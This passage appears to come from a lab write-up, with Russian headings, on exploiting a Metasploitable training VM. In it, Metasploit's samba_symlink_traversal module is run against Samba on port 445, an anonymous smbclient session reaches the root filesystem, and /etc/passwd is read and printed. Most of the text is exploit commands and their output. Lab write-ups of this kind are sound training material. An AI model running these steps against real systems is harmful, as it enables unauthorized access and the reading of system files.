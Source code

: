 ```
uname
Linux
hostname
metasploitable
```
№3 - порт 445 - samba_symlink_traversal

```
smbclient -L //192.168.6.244
search samba traversal
Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  auxiliary/admin/smb/samba_symlink_traversal                   normal  No     Samba Symlink Directory Traversal

use 0
show options
set RHOSTS 192.168.6.244
set SMBSHARE tmp
show options
exploit
smbclient //192.168.6.244/tmp

[*] exec: smbclient //192.168.6.244/tmp
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd

getting file \rootfs\etc\passwd of size 1581 as /tmp/smbmore.paJSIb (308.8 KiloBytes/sec) (average 308.8 KiloBytes/sec)
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
```